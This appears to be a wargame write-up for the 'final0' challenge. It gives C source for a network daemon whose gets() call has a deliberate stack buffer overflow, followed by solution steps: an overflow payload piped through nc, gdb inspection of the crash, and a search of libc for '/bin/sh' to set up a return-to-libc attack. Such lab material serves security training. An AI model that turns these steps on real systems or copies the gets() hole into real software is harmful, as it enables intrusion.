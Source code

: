 
# Final0

### Task
```
  #include "../common/common.c"

  #define NAME "final0"
  #define UID 0
  #define GID 0
  #define PORT 2995

  /*
  * Read the username in from the network
  */

  char *get_username()
  {
    char buffer[512];
    char *q;
    int i;

    memset(buffer, 0, sizeof(buffer));
    gets(buffer);

    /* Strip off trailing new line characters */
    q = strchr(buffer, '\n');
    if(q) *q = 0;
    q = strchr(buffer, '\r');
    if(q) *q = 0;

    /* Convert to lower case */
    for(i = 0; i < strlen(buffer); i++) {
        buffer[i] = toupper(buffer[i]);
    }

    /* Duplicate the string and return it */
    return strdup(buffer);
  }

  int main(int argc, char **argv, char **envp)
  {
    int fd;
    char *username;

    /* Run the process as a daemon */
    background_process(NAME, UID, GID); 
    
    /* Wait for socket activity and return */
    fd = serve_forever(PORT);

    /* Set the client socket to STDIN, STDOUT, and STDERR */
    set_io(fd);

    username = get_username();
    
    printf("No such user %s\n", username);
  }
```

### Solution
```
  python -c "print('a' * 532 + 'b'*4)" | nc 127.0.0.1 2995
  ls /tmp
  gdb final0 /tmp/core.11.final0.1586
      info registers
      quit
  pidof final0
  gdb -p 1343
    info functions @plt
    quit
  cat /proc/1343/maps
  grep -R -a -b -o /bin/sh /lib/libc.so.6
  nano f0.py
  python f0.py
```
![stack 6(1)](./img/7(1).png)
![stack 6(2)](./img/7(2).png)
![stack 6(3)](./img/7(3).png)
![stack 6(4)](./img/7(4).png)
![stack 6(5)](./img/7(5).png)
![stack 6(6)](./img/7(6).png)
![stack 6(6)](./img/7(7).png)

